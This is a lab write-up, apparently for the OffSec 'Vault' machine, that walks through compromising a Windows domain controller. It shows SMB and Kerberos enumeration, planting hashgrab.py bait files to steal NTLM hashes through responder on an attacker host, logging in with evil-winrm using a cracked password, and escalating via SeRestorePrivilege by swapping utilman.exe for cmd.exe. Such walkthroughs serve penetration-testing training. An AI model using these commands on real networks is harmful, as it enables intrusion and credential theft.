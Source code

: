 #Pwned #AD #Phishing #SeRestorePrivilege
```IP
192.168.155.172
```
# Enumeration
## Nmap
As always I start with a nmap port scan:
```bash
sudo nmap -sCV 192.168.155.172 -vvv -p- -oN enum/full
```
Output:
```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 125 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2025-01-30 19:41:01Z)
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 125
464/tcp   open  kpasswd5?     syn-ack ttl 125
593/tcp   open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 125
3268/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
5985/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 125 .NET Message Framing 
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC        
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49675/tcp open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC              
49708/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
```

## SMB
Everytime I see SMB service up, I inmediately scan its shares with nxc:

```
nxc smb 192.168.155.172 -u 'guest' -p '' --shares
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130205945.png?raw=true)

We have write access over DocumentsShare share. Maybe we can use the impacket-smbexec package to try to upload a reverse shell:

```
impacket-smbexec guest:''@vault.offsec
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130210315.png?raw=true)

It does not seem possible. Also, the directory is empty:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130210139.png?raw=true)

## Kerberos

If we check for possible users by bruteforcing kerberos we get only administrator and guest users:
```
/home/kali/Documents/tools/kerbrute userenum --dc 192.168.155.172 -d vault.offsec /usr/share/SecLists-master/Usernames/cirt-default-usernames.txt
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130210917.png?raw=true)

## Back to SMB

Another way we can try to get some usernames is by bruteforcing RID values. This can be done with nxc too:

```
netexec smb 192.168.155.172 -u 'guest' -p '' --rid-brute 3000
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130211704.png?raw=true)

And as we can see, we have `anirudh` username!

## UDP scan
Maybe some UDP port enumeration will help us to advance:

```
sudo nmap -sU vault.offsec -vvv --top-ports=100 --min-rate=5000 -oN enum/udp
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130212410.png?raw=true)

The most we can do with ntp service is to check the server time stamp:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130212611.png?raw=true)


# Exploitation

We can upload to the DocumentsShare share a phishing attack in order to retrieve NTLM hashes. For this purpose we will use a tool called hashgrab.py, which automatically creates some malicious files which we will upload to smb. We will also abilitate responder in our local machine to catch the hash:
```
python hashgrab.py 192.168.45.157 hash
```

```
sudo responder -I tun0 -w
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130221939.png?raw=true)

Indeed we get the following hash:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130221953.png?raw=true)

Let's try to crack it with john:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130222131.png?raw=true)

```
evil-winrm -i vault.offsec -u 'anirudh' -p 'SecureHM'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130222250.png?raw=true)

# PrivEsc

## Manual
We can start enumerating the user by checking its privileges:
```
whoami /priv
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130223435.png?raw=true)

In turns out it has two potential PE vectors, one of them being SeRestorePrivilege. One way to exploit this privilege is to change the utilman executable for a cmd (since we have permissions over system32 files) and then trigger it via RDP:
```
mv c:\windows\system32\utilman.exe c:\windows\system32\utilman-OLD.exe
```
```
mv c:\windows\system32\cmd.exe c:\windows\system32\utilman.exe
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130223447.png?raw=true)

```
rdesktop -u anirudh -p SecureHM -v 192.168.155.172
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130223457.png?raw=true)

Once here, we need to type an incorrect password in order to access this unlock menu. If we then click on the `Ease of access` menu, we will execute cmd.exe instead of utilman.exe as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130224314.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020250130224154.png?raw=true)

Pwned!

